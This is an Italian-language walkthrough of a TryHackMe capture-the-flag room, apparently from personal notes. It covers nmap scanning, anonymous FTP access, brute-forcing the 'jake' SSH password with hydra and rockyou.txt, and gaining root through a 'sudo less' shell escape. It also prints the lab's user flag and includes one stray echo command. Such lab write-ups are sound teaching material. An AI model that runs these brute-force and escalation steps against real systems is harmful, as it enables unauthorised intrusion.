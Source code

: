 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/brooklynninenine

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.92.61 -oG risultatoscan
```

```
sudo nmap -sC -sV -p21,22,80 10.10.92.61 -oN risultatoscan2
```

come si vede dal risultato c'è possibilità di  connettersi in modalità anonima  in ftp
```shell
ftp 10.10.92.61
```
ed entriamo con nome user:
```
anonymous
```
e *password vuota

```
less note_to_jake.txt
```
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```shell
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.92.61 ssh
```
trovata la password con hydra
[22][ssh] host: 10.10.92.61   login: jake   password: 987654321
e ci connettiamo con ssh
```
ssh jake@10.10.92.61
```

```
cd /home/holt
```

```
cat user.txt
```
user flag!
==ee11cbb19052e40b07aac0ca060c23ee

vediamo a che gruppo appartiene jake
```
id
```
vediamo su che binario cosa abbiamo i permessi
```
sudo -l
```
(ALL) NOPASSWD: /usr/bin/less

cerchiamo i binari SUID
```
find / -perm -4000 -ls 2>/dev/null
```
https://gtfobins.github.io/
less (sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.


```
cd /tmp
```
creiamo archivio e salviamolo in una cartella

```
echo " ant, ant" > cant
```

```
sudo less /etc/profile
```
```
!/bin/sh
```

```
cd /root
```

```
less root.txt
```
==xxxxxxxxxxxxxxxxxx==
root flag!


